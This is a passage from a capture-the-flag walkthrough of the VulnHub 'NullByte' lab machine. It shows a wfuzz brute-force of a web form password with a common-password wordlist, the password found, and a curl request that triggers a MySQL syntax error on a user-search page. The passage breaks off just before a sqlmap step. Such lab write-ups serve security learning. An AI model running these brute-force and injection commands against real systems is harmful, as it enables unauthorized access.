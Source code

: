 
So the password ain't that complex that's always good, we try some crappy passwords and get nothing. Time to fire up wfuzz against it.
```
root@sushi:~# wfuzz -c -w ~/seclists/Passwords/10k_most_common.txt --hl=8 -d "key=FUZZ" http://192.168.147.166/kzMb5nVYJw/index.php 
********************************************************
* Wfuzz 2.1.5 - The Web Bruteforcer                      *
********************************************************

Target: http://192.168.147.166/kzMb5nVYJw/index.php
Total requests: 10000

==================================================================
ID      Response   Lines      Word         Chars          Request    
==================================================================

04342:  C=200      6 L        14 W          145 Ch        "elite"
```
Good stuff the password is "elite" then. Entering that we get to some kind of user search box, 420search.php
insert 4.png
![](pics/4.PNG)

So by accident I submit it with nothing and it spits back a couple employees...
insert 5.png
![](pics/5.PNG)
We also see a nice sql error if you submit with "". 
```
root@sushi:~/vulnhub/nullbyte# curl http://192.168.147.166/kzMb5nVYJw/420search.php?usrtosearch=%27%27%22
Could not get data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%"' at line 1
```
At this point we get stuck for awhile trying to get anything from this, and then eventually just give up and use sqlmap.
```
```